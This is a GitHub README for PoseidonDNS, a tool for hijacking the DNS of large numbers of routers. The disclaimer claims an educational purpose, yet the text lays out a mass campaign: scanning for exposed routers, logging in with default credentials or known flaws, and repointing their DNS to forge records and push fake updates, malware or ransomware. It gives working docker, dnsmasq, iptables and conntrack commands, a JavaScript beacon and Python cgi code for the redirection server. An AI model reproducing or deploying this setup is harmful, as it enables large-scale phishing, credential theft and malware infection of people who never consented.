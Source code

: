 [![Maintenance](https://img.shields.io/badge/Maintained-yes-green.svg)]() [![Powered by](https://img.shields.io/badge/ubuntu-v16.04-blue.svg)]() [![Docker](https://img.shields.io/badge/DockerImage-v1.0.1-green.svg)](https://hub.docker.com/repository/docker/benchaliah/poseidondns) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)



## Disclaimer

This tutorial is for informational and educational purposes only. I believe that ethical hacking, information security and cyber security should be familiar subjects to anyone using digital information and computers. And I urge anyone who would use this tool to only use it on targets he/she is authorized to access, I hold no responsability in one used it for any unlawful activity.


## About

* This is a tool that can offer a cross-platform (Android, Windows, iOS ... etc) remote and automated penetration, can be used for massive automated social engineering, randomware or more advanced pentests


[DNS hijacking](https://en.wikipedia.org/wiki/DNS_hijacking) is often used for phishing, in order to obtain sensitive information such as credentials for social media and bank accounts, but more advanced exploitation allows for more critical access. Let take the following scenario for instance, if a hacker gain access to the DNS settings in a router, he can in theory then control the entire flow of the target's internet connections, therefore, he can install malwares on the target's devices (smartphone, computer) using social engineering (fake updates, because normal updates done automatically by windows, android or otherwise are almost exlucsivly done via SSL which would require a signed certificate) or some vulnerability in the software already installed on the target's device. However, this process require investing significant time analyzing each target indivually and trying to gain more access.


## Setup

> Must be root

* __Method 1:__

Clone this repo then :
```
$ docker build -t poseidon .
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 poseidon
```

* __Method 2:__

Pull from docker :
```
$ docker pull benchaliah/poseidondns
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 benchaliah/poseidondns
```

You can test the server using `dig @dockercontainerIP whateverDomain`, or by setting dhcp in a device (router or otherwise) to `dockercontainerIP`


## Approach

One of ways this tools can be used in, is using Nmap to scan massive IP ranges looking for routers that are exposed to WAN, most of them usually still hold the default login (example: user=admin pass=admin) then changing the DNS address in the DHCP settings, this process can be easily automated using a simple Python script and by using http requests or a Browser automation library (example: Selenium/Chromedriver-FirefoxDriver) you can automatically gain access to thousands of routers, there is also [Shodan](http://shodan.io) that can offer huge numbers of active IPs of routers that are exposed and you can even uses more filters to get only routers that uses a specific firmware/version on which you have a way to access even without default credentials (example : Millions of routers around the world uses Rompager/4.07 a firmware that have a critical vulnerability called [Misfortune Cookie](https://github.com/BenChaliah/MIPS-CVE-2014-9222)).
However, setting thousands of routers towards your DNS similtanously raises another question, how much resources would the server require? The server must respond to the millions of requests each minutes withing few miliseconds for each request, so that the targets wouldn't notice a difference in latency in their internet connection, one of the tools known in the cyber security community for DNS hijacking called DNSChef, a tool that is built on python, which makes it very useful in the case of small sample testing but highly unreliable when you test it against much bigger samples giving high failure rate. On the other hand there's dnsmasq which is written in C (making it much much faster with very little resources) and it offers DNS caching, a DHCP server and more. But since it was not intended for DNS Hijacking it's not quite configurable for such use.

However, in this analysis I'll be explain how did I used it and other low level tools to make a server that even with very low specs (Example : Elastic computer hosted on AWS or gCloud 1 vcpu, 1 Gb of memory) can offer for a huge number of targets a very low latency that compares to that of known public DNS such as `8.8.8.8`, or even supersede it depending on the location of the server and the targets.


### Tools
```
 > dnsmasq 2.79 (or later)
 > Apache/2.4.29 (Ubuntu)
 > conntrack v1.4 (or later)
 > iptables v1.6.1 (or later)
 > python2.7
 > screen version 4.06 (or later)
```

## Summary

* Component 1:

You start two (or more depending on the exploitation) instances of dnsmasq and bind them to different ports

```
$ dnsmasq --no-hosts -p 531 --max-cache-ttl=0
$ dnsmasq --no-hosts --address=/#/yourDNSIP  --server=/.youWebsiteDomain.tld/# -p 532 --max-cache-ttl=0
```

the first one in a regular resolver in order to provide the real DNS records, and the second one will always return an `A record` with the IP address of the server you deploy this docker on except for the domain (or domains, by adding `--server=/.domain2/#`) to which you want to force the targets

* Component 2:

We will be adding the some rules to `NAT` table, the idea is to forward connections comming through port 53 (UDP and TCP, but mainly the former) to either of the dnsmasq instances, and the way to do so is by putting the rule in __PREROUTING__ chain specification, first we'll forward all connections towards the DNS that would provide the __fake records__

```
$ iptables -t nat -A PREROUTING -p tcp -m tcp --dport 53 -j REDIRECT --to-port 532
$ iptables -t nat -A PREROUTING -p udp -m udp --dport 53 -j REDIRECT --to-port 532
```

after the target get redirecred to the domain you which or download the software you wants, you need to trigger the process that will add an exception for the associated __REMOTE_ADDR__ in the port forwarding rules. Here's an example using Javascript, implemented in your domain page

```javascript
<script type="text/javascript">
	if (document.visibilityState == "visible") {
		var xhttp = new XMLHttpRequest();
		xhttp.open("GET", "http://myDNSIP/cgi-bin/route", true);
		xhttp.send();
	}
</script>
```

the previous script will trigger the execution of a Python script inside cgi-bin. Now the script does multiple things but all are very lightweight, first create an empty file called __{REMOTE_ADDR}__ inside a folder called __IPS__, for instance, if the request came from `174.123.23.54` their will be a file called `174.123.23.54` inside IPS, then it'll generate a bash script that will be executed and delete itself when finished (by adding this command `rm -f -- "$0"` at the end). the bash contains also multiple iptables rules, which are the exceptions for all the targets that already went through the process:

```python
for i in os.listdir("./ips/") + [os.environ['REMOTE_ADDR']]:
	rules_str += "-A PREROUTING -s %s/32 -p udp -m udp --dport 53 -j REDIRECT --to-ports 531\n"%i

# Then save the exceptions in a file inside a folder
rules_path = "./tmp/script_%d.rules"%rand_name
with open(rules_path, "w") as f:
	f.write(base_query_str.replace("{loop_str}", rules_str))
```

An independant Python script running in a screen must update iptables rules every few miliseconds through 

`cat ./tmp/script_{rand_name}.rules | iptables-restore`

In order to improve efficiency and avoid running the same exceptions multiple times the independ Python script (or any other approach to loop this command) will be running:

`cat $(ls -1t /var/www/cgi-bin/tmp/*.rules | head -1) | iptables-restore`

the first part of the command will read the latest created rules file which will hold the previously generated rules without duplicates then pipe it to `iptables-restore`.



* Component 3:

Let assume you want the targets to get redirected to your website/domain periodically (the period can be constant or variate), this is were `runScreen1.py` comes to play, you also run this script in an independant screen, the script will run:

> rand_int holds the same value as the one in the file /var/www/cgi-bin/rand_ref which can variate or be constant (depending on your exploitation)

`$ cd /var/www/cgi-bin/ips && find * -mmin +{rand_int} -exec  conntrack -D -s {} > /dev/null \; && find * -mmin +{rand_int} -exec rm -f {} \; && cd /root`

Let now disect this command, `find * -mmin +{rand_int} -exec` uses the filesystem to select only the files (here IPs) that where created/modified at least __{rand_int}__ minutes ago, for instance if you want to redirect the targets each hour you just need to put 60 inside `/var/www/cgi-bin/rand_ref` file and this will remove the exception from the port forwarding rules by deleting the IP from `cgi-bin/ips`, by consequence the next rules file generated by `cgi-bin/route` will not be containing an exception rule for this IP. Now `-exec` will pipe the listed IPs fiting the criteria to another command `conntrack`.


* Component 2-3 (__conntrack__):

Connection tracking is a core feature of the Linux kernel's networking stack. It allows the kernel to keep track of all logical network connections or flows, and thereby identify all of the packets which make up each flow so they can be handled consistently together. However, as much as this feature allows for a smooth flow of packets at a very low level, for the purpose of this exploitation it has a small down side that can easily be dealt with (I wouldn't say a down side because connection tracking is essential for a DNS server low latency and efficiency), when ever you update the iptables rules the already established connections will not abide by the new rules which is a big problem in this specific situation, because what we want is for the target to be switched between different dnsmasq instances instantly after a specific trigger (like http request to `cgi-bin/route`).

> `conntrack -D -s`

This command will flush the existing expectations (connection trackers) based on the source address, which by consequence will force the kernel to establish a new connection based on the updated rules. We are running this command in bash generated by `cgi-bin/route` to switch the target between the fake DNS to the real one, and vice versa using `runScreen1.py`



> * I'll soon be adding a video showing how the server works, and a benchmark.
